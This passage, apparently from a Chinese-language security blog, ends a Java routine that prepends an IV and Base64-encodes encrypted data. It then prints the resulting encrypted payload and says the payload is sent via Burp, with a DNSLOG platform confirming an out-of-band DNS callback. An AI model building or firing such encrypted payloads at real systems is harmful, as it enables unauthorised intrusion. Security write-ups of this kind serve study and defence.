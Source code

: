 ```java
        System.arraycopy(iv, 0, concatenatedArray, 0, iv.length);
        System.arraycopy(encryptedData, 0, concatenatedArray, iv.length, encryptedData.length);
        return Base64.getEncoder().encodeToString(concatenatedArray);
    }
}
```

得到：

```java
7JJYbbWC8s7FCIpN+UZi4LXzqWsmorCpupIPdHIBmgF6TZSHK7yWlLTUABOG5mjNJRU8SAYJMzAxaPxvpcVsbFZxCGFqPNeRowUI6ywkRL+AQVdrLFggLzHD2SnEh0oRRyueIOaXFoe882XAcDiltZytrQUnGwMP4WE9xERhuwL4Qnd+pAi+idcsLK/iEiUCSN2xj8FY0UR98gCAGDYzcAdOF6ghIYuLraG0urwVMo4Gjaq7jgdeBbQZgdsOrV464PdsnPE+Iy2mjo+Z+uCDpxRCg92uIgKBKnfx6e2jtzy3VjDLuAUJquOuZGWzIGPue7LN7tkudViI2Zj9T8182baLj28FX5B+onzxYEX7r95AE+RGZs3XqADSt1j+Z2ms6XRwi0m89AFY4Xo1K6nhTmPuYIYfHyml31VhqvPY6KI0nm4BrJyW/8kncT64JtYABdI1u+/0zxTEUh4XrUx3FJ5azhf8bD+dVmSIaVkwxuM=
```

然后在burp中发包：

![image-20240312023533872](../blog_img/image-20240312023533872.png)

此时DNSLOG平台即可接受到我们的DNS请求
